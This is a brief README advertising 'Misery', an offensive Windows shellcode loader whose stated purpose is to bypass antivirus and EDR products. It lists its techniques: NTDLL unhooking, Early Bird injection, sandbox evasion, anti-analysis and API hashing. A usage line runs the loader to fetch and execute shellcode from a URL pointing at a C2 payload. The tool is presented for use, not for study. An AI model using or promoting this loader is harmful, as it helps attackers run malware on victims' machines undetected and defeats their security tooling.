 # Misery (Evade Av Like Taxes)
## Misery Loader to bypass modern EDR solutions 🖥️ 🛠️
![miserybanner](https://i.imgur.com/yCk788y.jpeg)

## Misery is a code injector with some features
   * 🪝 Unhook NTDLL from suspended process
   * 💉 Early Bird Injection
   * 📦 Sandbox bypass (Api Hammering) ⚒️
   * 🚫 Anti Analysis Functions
   * 👽 Mutex Payload Control
   * 😈 Compile Time API Hashing with HashStringJenkins algorithm
   * ❤️ Developed by sorahed with lots of love
---
## 🆘 Usage
### 📁 Generate the payload with the c2 of your choice(*.bin)
### ⚔️ Misery.exe --shellcode \<URL/shellcode.bin>




